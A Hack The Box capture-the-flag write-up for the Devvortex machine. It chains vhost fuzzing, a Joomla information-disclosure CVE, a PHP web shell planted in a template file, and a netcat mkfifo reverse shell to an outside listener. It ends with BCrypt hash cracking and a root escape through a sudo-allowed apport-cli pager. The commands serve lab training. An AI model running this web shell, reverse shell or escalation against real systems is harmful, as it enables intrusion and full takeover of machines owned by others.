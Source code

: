 [Devvortex](https://app.hackthebox.com/machines/Devvortex) is a machine on HTB. We use **directory- and vhost-fuzzing** with **`gobuster`** to layout our attack surface. We find a subdomain that hosts a **`Joomla!`** service. This version of `Joomla!` has a known **CVE** that allows us to read from its **`mysql`** database, which contains user credentials. We then **inject `php`-code** which grants us a **web-shell** and in turn allows us a **reverse-shell**. We then find another **BCrypt-hashed** password and use **`johntheripper`** to crack it. We then use a **`sudo`-misconfiguration** to run a pager as root.

---

## Reconnaissance
We get an IP address `10.10.11.242`

```zsh
sudo nmap -sC -sV 10.10.11.242
```

We run a basic `nmap` scan against the target machine and find that the only open ports are 22, with SSH running, and 80 with an `nginx 1.18.0` server. We also see that the server redirected us to: `devvortex.htb`. This could be an indication that the server is VHosting and that we might be able to find other subdomains.

We add the domain to our `hosts` file so we can navigate the site using our browser.

```zsh
sudo sh -c 'echo "10.10.11.242 devvortex.htb" >> /etc/hosts'
```

Browsing on the site, it looks like a very uninteresting site which is mostly just static. There is a contact form that can be submitted, but investigating the network traffic with the developer tools shows that the submitting actually does not make any interesting request.

We perform some directory fuzzing and some vhost fuzzing to see if we can brute-force some interesting pages.

```zsh
gobuster dir -w wordlist.txt -u http://devvortex.htb/
gobuster vhost -w wordlist.txt -u 10.10.11.242 --domain devvortex.htb
```

The subdirectory scan finds the pages we already knew about and some additional ones that mostly return empty pages or 403s. The vohst fuzzing tells us there is a subdomain also running on this server: `dev.devvortex.htb` 

Adding this to our `hosts` file and opening the page in the browser reveals a similar but differently styled static webpage. Again, no interesting content can be found at all. When trying another directory fuzzing scan, we get very slow response times, making the scan take a large time. To prevent unnecessary waits like that, we can look at `/robots.txt` as that usually contains some interesting directories as well.

In the `robots.txt` file we learn that the webpage has been created using `Joomla!`. There is an `/administrator` page where one can administer the Joomla! setup. When navigating there we're met with a login screen and unfortunately non of the basic default credentials seem to be valid.

## Access to the administrator Joomla! account

Looking up the Joomla! software online reveals [2023-23752](https://nvd.nist.gov/vuln/detail/CVE-2023-23752) which is a vulnerability that lets us read sensitive information, including username and password, from the joomla `mysql` database in plaintext. The exploit (and road to code execution) is explained [here](https://vulncheck.com/blog/joomla-for-rce). We use `msfconsole` from MetaSploit to launch [this exploit script](https://www.exploit-db.com/exploits/51334) for this vulnerability. We can use the `check` function to indeed confirm that the version of Joomla on this server is vulnerable. 

The script shows us the login credentials for a user called `lewis`. On the [source](https://vulncheck.com/blog/joomla-for-rce) mentioned earlier, they explain that if the `mysql` database is internet facing, we can use these credentials to change the password of the `Super User` (administrator) of the Joomla! application. The database is not internet facing, however in the info gained from the exploit we learn that `lewis` is also a username for the Joomla! application. Turns out the Joomla account for `lewis` uses the same password and we can login into the `/administrator` portal.

## RCE and Reverse Shell

From here, the source mentioned earlier explains clearly how we can get RCE going. We can edit the template for the `dev.devvortex.htb` site and add in some malicious `php` code that gets us a webshell. With this webshell we can then have the system create a reverse shell into our machine. We change the `/error.php` file for the template and include this (url-encoding so sending over the reverse shell command is easier)

```php
$decodedCmd = urldecode($_GET['cmd']);
system($decodedCmd);
```

We first check whether we indeed have a webshell by trying:
```zsh
curl dev.devvortex.htb/error.php\?cmd\=whoami
```
Which indeed returns `www-data` as expected. The let's create an `nc` listener and activate the reverse shell with the url-encoding of `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.100 1234 >/tmp/f`
```zsh
nc -lvnp 1234
curl dev.devvortex.htb/error.php\?cmd\=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.15.100%201234%20%3E%2Ftmp%2Ff
```

## User pwn
On the system, we see that there is a `/home/logan/` directory which has the `user.txt` flag that we're after. We do not know of any password for the `logan` user. We do have `mysql` credentials for the `lewis` user and so we open the database as `lewis` as there might be something interesting. 

```zsh
mysql -u lewis -p
```

We use `show databases;` and see there is a `joomla` database, which is also the one we extracted some values from earlier. In the `.._users` table we find the two users `lewis` and `logan` and their hashed passwords. Let's download the hashed password for `logan`, use `john` to brute-force it and hope they use the same password for their login on the machine.

```zsh
john -w:rockyou.txt hash.txt
```
`john` is able to determine the type of encryption `BCrypt` and find the right password. Using the same password with `su logan` indeed logs us in as `logan` and lets us read the `user.txt` flag.

## Privilege escalation
Checking `sudo -l` (one of the first things I always check), we find that we can run `apport-cli` as root. Looking this program up online tells us that it uses a pager and thus we can get a root shell going through this pager. We use:

```zsh
sudo apport-cli --file-bug
```
We can generate an arbitrary bug report and view it in the pager. Now typing `!bin/bash` in the pager gets us a shell as root. We can now read the `root.txt` file in the `/root` directory and we have pwned the machine!